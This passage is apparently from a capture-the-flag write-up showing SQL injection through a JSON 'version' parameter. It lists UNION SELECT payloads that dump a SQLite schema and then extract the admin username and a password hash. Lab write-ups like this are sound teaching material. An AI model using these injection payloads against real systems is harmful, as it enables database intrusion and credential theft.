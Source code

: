 
Note that in this query I use `tbl_name`, so that the output isn't so long. Using `sql` provides us information on all column names from within the table, so it is useful to use once we find an interesting table. For a better word-wrapping experience, from this point on I put all outputs in code brackets

After dumping all tables, we see a full picture that looks like this:

```JSON
{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 1-- -"}

{"message": {"id": "CREATE TABLE answers (id INTEGER PRIMARY KEY AUTOINCREMENT, answered_by TEXT,  answer TEXT , answered_date DATE, status TEXT,FOREIGN KEY(id) REFERENCES reports(report_id))", "version": null, "released_date": null, "downloads": null}}

{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 2-- -"}

{"message": {"id": "CREATE TABLE info (id INTEGER PRIMARY KEY AUTOINCREMENT, key TEXT, value TEXT)", "version": null, "released_date": null, "downloads": null}}

{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 3-- -"}

{"message": {"id": "CREATE TABLE reports (id INTEGER PRIMARY KEY AUTOINCREMENT, reporter_name TEXT, subject TEXT, description TEXT, reported_date DATE)", "version": null, "released_date": null, "downloads": null}}

{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 4-- -"}

{"message": {"id": "CREATE TABLE sqlite_sequence(name,seq)", "version": null, "released_date": null, "downloads": null}}

{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 5-- -"}

{"message": {"id": "CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password DATE, role TEXT)", "version": null, "released_date": null, "downloads": null}}

{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master LIMIT 6-- -"}

{"message": {"id": "CREATE TABLE versions (id INTEGER PRIMARY KEY AUTOINCREMENT, version TEXT, released_date DATE, downloads INTEGER)", "version": null, "released_date": null, "downloads": null}}
```

`Users` database is a clear standout, and may contain valuable credentials:

```JSON
{"version":"0.0.3\"UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master-- -"}

{"message": {"id": "CREATE TABLE versions (id INTEGER PRIMARY KEY AUTOINCREMENT, version TEXT, released_date DATE, downloads INTEGER)", "version": null, "released_date": null, "downloads": null}}


{"version":"0.0.3\"UNION SELECT username,password,role,NULL FROM users where id = 1-- -"}

{"message": {"id": "admin", "version": "0c090c365fa0559b151a43e0fea39710", "released_date": "admin", "downloads": null}}

{"version":"0.0.3\"UNION SELECT username,password,role,NULL FROM users where id = 2-- -"}

{"message": "Invalid version!"}
```

